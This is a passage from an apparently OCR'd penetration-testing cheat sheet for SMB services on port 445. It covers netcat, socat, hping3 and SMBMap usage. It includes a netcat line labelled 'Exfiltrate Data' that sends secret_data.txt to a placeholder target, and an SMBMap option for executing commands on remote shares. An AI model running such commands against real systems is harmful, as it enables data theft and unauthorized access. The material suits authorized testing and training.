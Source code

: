     ```bash
    echo "<command>" | nc <target_ip> 445
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 445 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:445
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 445 -c 1
    ```

#### \[\[SMBMap]]

*   **Target Specification:**

    ```bash
    smbmap -H <target_ip> -d <target_domain> -u <username> -p <password> options
    ```
*   **Accessing Specific Shares:**

    ```bash
    -r <share>: Access a specific share on the remote system. 
    -s <share>: Specify a custom SMB share name for shares requiring authentication.
    ```
*   **Listing Shares:**

    ```bash
    -R: Recursively list directories and files in accessible shares.
    ```
*   **Loading Shares from a File:**

    ```bash
    -A <file>: Load a list of shares from a file, one share per line.
    ```
*   **Quiet Mode:**

    ```bash
    -q: Suppress informational messages, displaying only share information.
    ```
*   **Executing Commands:**

    ```bash
    -x <command>: Execute a custom command on a share.
    ```
*   **Filesystem Interaction:**
